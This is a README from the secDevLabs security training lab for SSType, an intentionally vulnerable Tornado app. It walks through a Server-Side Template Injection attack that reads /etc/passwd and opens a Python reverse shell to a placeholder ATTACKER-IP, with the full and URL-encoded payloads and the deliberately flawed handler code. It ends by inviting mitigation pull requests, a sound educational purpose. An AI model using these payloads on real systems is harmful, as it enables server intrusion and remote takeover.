 
# SSType

<p align="center"><img  src="src/images/ssti-logo.png"/></p>

SSType is a simple Python web application that contains an example of a Server-Side Template Injection vulnerability in Tornado. In this example, a specific subcategory of Injection will be exemplified: Server Side Injection or SSTI.

## Index

- [Definition](#what-is-injection)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Injection?

Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

The main goal of this project is to discuss how **Server-Side Template Injection** vulnerabilities can be exploited and to encourage developers to send Pull Requests to secDevLabs on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a1/copy-n-paste
```

```sh
make install
```

Then simply visit [localhost:10001][App], as exemplified below:

<p align="center"><img  src="images/SSType.jpg"/></p>

## Get to know the app 💉

To properly understand how this application works, you can do some search using `name` as a query string using a [browser](http://localhost:10001/?name=Vitor) or using `curl` in a terminal: 

```sh
curl http://localhost:10001/?name=Vitor
```

<p align="center"><img  src="images/attack0.png"/></p>

## Attack Narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Lack of input validation allows injection of OS commands

After reviewing the application code, it was possible to see that the user input (`name` querystring variable) is not being handled properly before being rendered in the template, as shown in the following code snippets:

```python
def get(self):
    name = self.get_argument('name', '')
    template_data = tmpl.replace("NAMEHERE",name)
    t = tornado.template.Template(template_data)
    self.write(t.generate(name=name))
```

```html
<h3>Hello: NAMEHERE</h3>
<h2>Try with /?name=YourName</h2>
```

To confirm that the input field is vulnerable, the following payload could be used to test if the result of `4*4` could be rendered in the page:

```
http://localhost:10001/?name={{4*4}}
```

When this request gets to the application, `NAMEHERE` will be replaced into the HTML and it will execute the math, returning `16`: 

```html
<h3>Hello: {{4*4}} </h3>
<h2>Try with /?name=YourName</h2>
```

<p align="center"><img  src="images/attack1.png"/></p>

### 🔥

An attacker could now create any malicious command that, in theory, it will be executed. The first step we could do is trying to read the content of the `/etc/passwd` file. To do that, we will use the following Python command as the `name` query string:

```python
{%import os%}{{os.popen('cat /etc/passwd').read()}}
```

<p align="center"><img  src="images/attack2.png"/></p>

Great! Now that we can execute commands on the server hosting the application, a malicious Python script to provide us a shell somehow on the victim's server can be created. Let's take a look at the following example:

```python
import socket,subprocess,os

# creates a socket to estabilish the connection between the victim and the attacker
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKER-IP","ATTACKER-PORT"))

# configures STDIN, STDOUT and STDERR to be used in the shell
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

# spawns an interactive sh shell  
p=subprocess.call(["/bin/bash","-i"]);
```

To receive a reverse shell, we first need to use `nc` in our terminal to listen for any connections coming to our `ATTACKER-IP` and `ATTACKER-PORT` and later execute this Python script on the victim server:

```sh
nc -nlv ATTACKER-PORT
```

But how can we use this payload inside the `name` parameter? To do so, we could compact it using multiples `;` to separate each instruction, resulting in the following payload:

```
Don't forget to replace `ATTACKER-IP` and `ATTACKER-PORT` below!
```

```python
{%import os%}{{os.popen("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ATTACKER-IP\",ATTACKER-PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'").read()}}
```

However, as there might be some special characters in this string, we need to escape them before injecting it in the vulnerable application (this [online URL encoder](https://www.urlencoder.org/) may help) and hope for a shell:

```python
%7B%25import%20os%25%7D%7B%7Bos.popen%28%22python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%5C%22ATTACKER-IP%5C%22%2CATTACKER-PORT%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%5C%22%2Fbin%2Fbash%5C%22%2C%5C%22-i%5C%22%5D%29%3B%27%22%29.read%28%29%7D%7D
```

<p align="center"><img  src="images/attack3.png"/></p>

## Secure this app

How could you now mitigate this vulnerability? After your code modification, an attacker should not be able to run commands on the server.

## PR solutions

[Spoiler alert] To understand how this vulnerability can be mitigated, check [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Aclosed+is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3ASSType)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:10001
